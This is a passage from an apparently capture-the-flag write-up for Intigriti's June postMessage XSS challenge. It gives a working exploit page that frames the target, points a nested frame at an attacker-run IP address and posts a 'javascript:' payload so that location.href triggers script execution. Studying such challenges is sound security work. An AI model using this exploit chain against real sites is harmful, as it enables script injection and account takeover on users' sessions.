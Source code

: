 ```
  </body>
</html>
```

* So we have the page redirection, now we need to set the location.href to be the xss payload and delivered to the post message. Setting up an other get param just to get notified when to send the payload

```
<html>
  <head>Post Message XSS Challenge - Intigriti June</head>
  <body>
    <br>
    <iframe id="xss_frame" width=600 height=800 ></iframe>
    <script>

      console.log(location.search);
      if ((location.search).includes("shoot_payload")) {
          console.log("Sending exploit...")
          parent.postMessage("javascript:alert(document.domain)", "http://challenge-june.intigriti.io");
      } 
      let frame = document.getElementById("xss_frame");
      frame.src = "http://challenge-june.intigriti.io/#xss"
        
      frame.onload = function() {
        frame.contentWindow.frames[0].location = "http://[2604:a880:2:d1::3c:b050]?shoot_payload=1"
        }
               
      console.log(frame);
      console.log("Done!");
    </script>
  </body>
</html>
```

* Now accessing the page should send the payload and cause xss as the location ref is set to javascript protocol.

### Solve
